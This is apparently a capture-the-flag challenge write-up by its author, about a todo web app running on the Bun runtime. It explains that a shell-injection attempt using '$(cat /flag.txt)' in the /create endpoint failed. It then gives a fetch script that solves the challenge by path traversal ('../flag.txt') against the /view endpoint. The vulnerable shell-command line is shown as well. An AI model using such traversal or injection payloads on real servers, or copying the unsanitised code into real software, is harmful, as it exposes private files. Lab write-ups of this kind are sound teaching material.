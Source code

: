 # How did it go?
The vulnurability I was trying to expose did not work the way I intended. This probably has to do with the [Bun runtime](https://bun.sh/) not excecuting bash the way I thought it would.
for example:

```js
//You would thinkg writing $(cat /flag.txt) would make that excecte and input the flag to the file but it doesn't
//Instead it writes the actual string "$(cat /flag.txt)" into the file and not excecuting
const createfile = await $`echo ${data1} > ${req.query.auth}/${data2}`.text()
```
The difficulty is changed from a 0.4 to a 0.2
This is because there is not much knowledge about bash required as it is only a path and the auth is exposed in the query params and not in the headers so it is easy to notice
Now you just have to understand that the "todo" is read is a directory
# What does the hacker have access to?
The hacker has access to only the website before finding the exploit.
The website sends 3 different serevr requests:
* /view: opens a file/todo (like cat), This is where you solve it
* /list: lists the todos (like ls). I did an empty path so it will be easier for the hacker to find the flag when they found the exploit
* /create: echos data into a file. This was meant to be the exploit but as meanti9oned above it never worked
# How do you solve it
It is solved by sending a request to the /view endpoint with a body that goes to the flag
The auth has to exist so people don't have the same todos when going to the website
I also think that is a good skill to learn that you often can copy the auth tokens from the web cookies/headers or query params to use an API with a script
This is how my project [Rustalytics](https://rustalytics.com) has done with the api endpoints of a rust server to provide a good service
```js
let headersList = {
 "Accept": "*/*",
 "User-Agent": "Thunder Client (https://www.thunderclient.com)",
 "Content-Type": "application/json"
}

let bodyContent = JSON.stringify({"todo": "../flag.txt"});
const id = ""//your auth id
let response = await fetch(`https://ctfdb.rustalytics.com/view?auth=${id}`, { 
  method: "POST",
  body: bodyContent,
  headers: headersList
});

let data = await response.text();
console.log(data);

``` 
